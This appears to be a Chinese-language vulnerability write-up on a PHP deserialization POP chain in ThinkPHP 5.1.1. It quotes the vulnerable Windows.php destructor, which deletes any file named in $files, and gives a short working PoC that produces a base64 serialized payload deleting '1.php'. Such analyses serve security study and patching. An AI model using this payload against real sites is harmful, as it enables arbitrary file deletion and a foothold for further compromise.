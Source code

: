 # Thinkphp 5.1.1 反序列化pop链构造

> 原文：[https://www.zhihuifly.com/t/topic/3176](https://www.zhihuifly.com/t/topic/3176)

# Thinkphp 5.1.1 反序列化pop链构造

## 一、漏洞简介

5.1.1的代码实现和5.1.38不同，于是就有了这篇文章

## 二、漏洞影响

Thinkphp 5.1.1

## 三、复现过程

这个漏洞的起点是一个任意文件删除漏洞
$this->files内容没有过滤，可以传入任意数值。

```
/thinkphp/library/think/process/pipes/Windows.php
public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    } `private function removeFiles()

{

foreach ($this->files as $filename) {

if (file_exists($filename)) {

@unlink($filename);

}

}

$this->files = [];

}` 
```

poc

```
<?php
namespace think\process\pipes;
class Windows
{
    private $files = [];
    public function __construct()
    {
        $this->files = ['1.php'];
    }
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows())); 
```
